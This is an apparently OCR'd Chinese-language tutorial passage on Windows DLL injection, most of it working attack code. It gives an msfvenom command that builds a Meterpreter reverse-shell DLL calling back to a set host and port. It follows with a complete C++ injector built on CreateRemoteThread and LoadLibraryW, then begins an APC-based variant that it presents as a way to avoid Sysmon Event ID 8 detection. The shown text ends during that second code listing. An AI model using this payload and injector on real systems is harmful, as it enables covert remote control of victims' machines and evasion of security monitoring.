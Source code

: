     
    
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.105 LPORT=4444 -f dll -o inject.dll

  

然后手写一个dll注入器：

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include<Windows.h>#include<stdio.h>  
    using namespace std;  
    int main(int argc,char * argv[]) {  HANDLE ProcessHandle;  LPVOID remotebuffer;  BOOL write;  
      wchar_t dllpath[] = TEXT("C:\\users\\root\\desktop\\inject.dll");  
      if (argc < 2) {    printf("Useage inject.exe Pid;\n");    printf("such as inject.exe 258\n");    exit(0);  }  
      printf("Injecting DLL to PID: %i\n", atoi(argv[1]));  ProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));  if (ProcessHandle == NULL) {    printf("OpenProcess Fail !!!");    exit(0);  }  else  {    printf("OpenProcess %i successful !!!\n",atoi(argv[1]));  }  
      remotebuffer = VirtualAllocEx(ProcessHandle, NULL, sizeof dllpath, MEM_COMMIT, PAGE_READWRITE);  write = WriteProcessMemory(ProcessHandle, remotebuffer, (LPVOID)dllpath, sizeof dllpath, NULL);    if (write == 0) {    printf("WriteProcessMemory Fail %i!!!",GetLastError());    exit(0);  }  else  {    printf("WriteProcessMemory  successful !!!\n");  }  
      PTHREAD_START_ROUTINE threatStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");  CreateRemoteThread(ProcessHandle, NULL, 0, threatStartRoutineAddress, remotebuffer, 0, NULL);  CloseHandle(ProcessHandle);  
      
      return 0;}

  

在进程监控中，也可以清楚的看到进程被注入了dll。

  

![](https://gitee.com/fuli009/images/raw/master/public/20211015094913.png)

  

在上面的注入方式中，我们使用了CreateRemoteThread来进行dll注入，而这个方式在具有Sysmon的系统中会留下Event ID
8的痕迹。而我们使用通过APC实现Dll注入则可以绕过这种监控。

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <windows.h>#include <TlHelp32.h>#include <vector>  
    using std::vector;  
    bool FindProcess(PCWSTR exeName, DWORD& pid, vector<DWORD>& tids) {    auto hSnapshot = ::CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0);    if (hSnapshot == INVALID_HANDLE_VALUE)        return false;    pid = 0;    PROCESSENTRY32 pe = { sizeof(pe) };    if (::Process32First(hSnapshot, &pe)) {        do {            if (_wcsicmp(pe.szExeFile, exeName) == 0) {                pid = pe.th32ProcessID;                THREADENTRY32 te = { sizeof(te) };                if (::Thread32First(hSnapshot, &te)) {                    do {                        if (te.th32OwnerProcessID == pid) {                            tids.push_back(te.th32ThreadID);                        }                    } while (::Thread32Next(hSnapshot, &te));                }                break;            }        } while (::Process32Next(hSnapshot, &pe));    }    ::CloseHandle(hSnapshot);    return pid > 0 && !tids.empty();}  